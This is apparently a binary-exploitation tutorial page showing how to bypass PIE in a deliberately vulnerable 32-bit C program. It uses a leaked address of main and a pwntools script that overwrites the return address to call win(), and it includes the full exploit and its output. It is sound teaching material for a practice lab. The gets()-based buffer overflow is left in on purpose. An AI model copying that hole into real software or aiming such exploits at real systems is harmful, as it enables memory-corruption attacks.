 ```yaml
---
description: Exploiting PIE with a given leak
---
```


# PIE Exploit

## The Source

{% file src="../../.gitbook/assets/pie-32.zip" caption="PIE - 32-bit" %}

```c
#include <stdio.h>

int main() {
    vuln();

    return 0;
}

void vuln() {
    char buffer[20];

    printf("Main Function is at: %lx\n", main);

    gets(buffer);
}

void win() {
    puts("PIE bypassed! Great job :D");
}
```

Pretty simple - we print the address of `main`, which we can read and calculate the base address from. Then, using this, we can calculate the address of `win()` itself.

## Analysis

Let's just run the script to make sure it's the right one :D

```text
$ ./vuln-32 
Main Function is at: 0x5655d1b9
```

Yup, and as we expected, it prints the location of `main`.

## Exploitation

First, let's set up the script. We create an `ELF` object, which becomes very useful later on, and start the process.

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()
```

Now we want to take in the `main` function location. To do this we can simply receive up until it \(and do nothing with that\) and then read it.

```python
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

{% hint style="info" %}
Since we received the entire line except for the address, only the address will come up with `p.recvline()`.
{% endhint %}

Now we'll use the `ELF` object we created earlier and set its base address. The `sym` dictionary returns the offsets of the functions from binary base until the base address is set, after which it returns the absolute address in memory.

```python
elf.address = main - elf.sym['main']
```

In this case, `elf.sym['main']` will return `0x11b9`; if we ran it again, it would return `0x11b9` + the base address. So, essentially, we're subtracting the offset of `main` from the address we leaked to get the base of the binary.

Now we know the base we can just call `win()`.

```python
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

{% hint style="info" %}
By this point, I assume you know how to find the padding length and other stuff we've been mentioning for a while, so I won't be showing you every step of that.
{% endhint %}

And does it work?

```text
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 4617
PIE bypassed! Great job :D
```

Awesome!

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

print(p.clean().decode('latin-1'))
```

## Summary

From the leak address of `main`, we were able to calculate the base address of the binary. From this we could then calculate the address of `win` and call it.

And one thing I would like to point out is how _simple_ this exploit is. Look - it's 10 lines of code, at least half of which is scaffolding and setup.

## 64-bit

Try this for yourself first, then feel free to check the solution. Same source, same challenge.

{% file src="../../.gitbook/assets/pie-64.zip" caption="PIE - 64-bit" %}

